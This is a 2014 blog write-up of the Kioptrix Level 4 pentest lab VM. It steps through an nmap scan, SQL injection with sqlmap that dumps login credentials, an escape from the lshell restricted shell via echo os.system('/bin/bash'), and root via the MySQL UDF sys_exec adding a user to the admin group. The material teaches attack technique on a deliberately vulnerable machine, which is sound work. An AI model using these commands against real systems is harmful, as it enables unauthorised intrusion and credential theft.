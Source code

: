 ```yaml
---
layout: post
title: "Pentest lab - Kioptrix Level 4"
date: 2014-06-22 22:39:14 +0300
comments: true
categories: [kioptrix, penetration testing, hacking, security]
keywords: kioptrix, penetration testing, hacking, security
description: Penetration testing Kioptrix Level 4
---
```


This is the final vulnerable machine in the Kioptrix series. To set it up in VMware, create a new virtual machine with the advanced options and use existing virtual disk, pointing it at the Kioptrix 4 virtual disk.

<!-- more -->

Let's see what Nmap reveals:

``` plain
nmap -A -p1-65535 192.168.127.129

Starting Nmap 6.46 ( http://nmap.org ) at 2014-06-22 22:35 EEST
Nmap scan report for 192.168.127.129
Host is up (0.00074s latency).
Not shown: 39528 closed ports, 26003 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
MAC Address: 00:0C:29:1F:12:65 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2014-06-22T18:36:57-04:00
| smb-security-mode: 
|   Account that was used for smb scripts: guest
|   User-level authentication
|   SMB Security: Challenge/response passwords supported
|_  Message signing disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol
```

Again, this seems to be a web based challenge. Navigating to the target website shows this:

{% img center /images/kio4.png 'login' 'login' %}

Supplying a single quote in the password field gives an error, which nicely discloses the database end as being MySQL:

*Warning: mysql_num_rows(): supplied argument is not a valid MySQL result resource in /var/www/checklogin.php on line 28
Wrong Username or Password*

Sqlmap to the rescue!

``` plain
sqlmap -u "http://192.168.127.129/checklogin.php" --dbms=MySQL --level=5 --risk=3 --data="myusername=admin&mypassword=test" --dump

Database: members
Table: members
[2 entries]
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
+----+----------+-----------------------+
```

Logging in with these credentials didn't yield anything though, all I could see was a member's control panel with no functionality. So I remembered the previous challenge that allowed SSH access, and tried to log in:

``` plain
root@kali:~# ssh john@192.168.127.129
The authenticity of host '192.168.127.129 (192.168.127.129)' can't be established.
RSA key fingerprint is 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.127.129' (RSA) to the list of known hosts.
john@192.168.127.129's password: 
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$ 
```

Excellent! It's time for some sniffing around. This is not a normal shell, usual commands don't work, so let's see what's available with the help system.

``` plain
john:~$ help
cd  clear  echo  exit  help  ll  lpath  ls
```

Hmm, not much. Actions are restricted too, can't *cd* to wherever I want:

``` plain
john:~$ cd /
*** forbidden path -> "/"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.
```

So I googled for a bit, and it appears this shell is a Python based limited shell (https://github.com/ghantoos/lshell):

> lshell is a shell coded in Python, that lets you restrict a user's environment to limited sets of commands, choose to enable/
> disable any command over SSH (e.g. SCP, SFTP, rsync, etc.), log user's commands, implement timing restriction, and more.

It is possible to escape from this shell by leveraging the *echo* command to call *os.system* in order to spawn a shell: <code>echo os.system('/bin/bash')</code>

``` plain
john:~$ echo os.system('/bin/bash')
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=1001(john)
```

Poking around, I found the following information in <code>/var/www/john/john.php</code>:

``` plain
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
```

So, root doesn't have a password for MySQL? Let's check:

``` plain
john@Kioptrix4:/var/www/john$ mysql -u root -h localhost 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.
```

[Here](http://www.iodigitalsec.com/mysql-root-to-system-root-with-udf-for-windows-and-linux/) I have found a way to get root privileges from a MySQL server running as root. Here's a quick summary:

* It is possible to escalate from MySQL server root level to system root by using User Defined Functions (UDF)

* We need the [lib_mysqludf_sys.so](https://github.com/mysqludf/lib_mysqludf_sys) library that contains some useful functions that can interact with the OS. The most important ones are **sys_exec** (executes the command and returns the exit status) and **sys_eval** (executes the command and returns the standard output)

The next step would be to find a way to get the library on the machine with our MySQL server. But that's not necessary in this case, because it's already on the server!

``` plain
john@Kioptrix4:~$ whereis lib_mysqludf_sys.so
lib_mysqludf_sys: /usr/lib/lib_mysqludf_sys.so
```

It took a bit of googling and trial and error until I found a way that worked in getting me to a root shell. [Here](http://superuser.com/questions/400723/how-do-i-create-a-superuser-from-the-command-line-in-ubuntu) is a useful post. The relevant part for us is this:

> Until Ubuntu 11.10, the Unix group for administrators with root privileges through sudo had been admin. Starting with Ubuntu 
> 12.04  LTS, it is now sudo, for compatibility with Debian and sudo itself. However, for backwards compatibility, admin group 
> members are still recognized as administrators

So it is possible to make the john account to be part of the admin group, that is equivalent to the sudo group. So from the MySQL prompt, run this:

``` sql
SELECT sys_exec('usermod -a -G admin');
```

What that does is it modifies john's account, appending it to the admin group. So let's do it on the MySQL command line:

``` sql
mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 | 
+--------------------------------------+
1 row in set (0.11 sec)
```

Now from john's shell:

``` plain
john@Kioptrix4:~$ sudo su
[sudo] password for john: 
root@Kioptrix4:/home/john# whoami
root
```

Awesome! We finally got root access! In root's directory there is another </code>congrats.txt</code> file that tells us there are at least 2 different tested ways to get root on this system. It sure was an interesting machine, and my favorite in the series, because it wasn't as straightforward as the others, and I had to look for more information and try (and fail) different approaches before I hit upon the winning one.

Here's today's fortune cookie:

> You single-handedly fought your way into this hopeless mess.

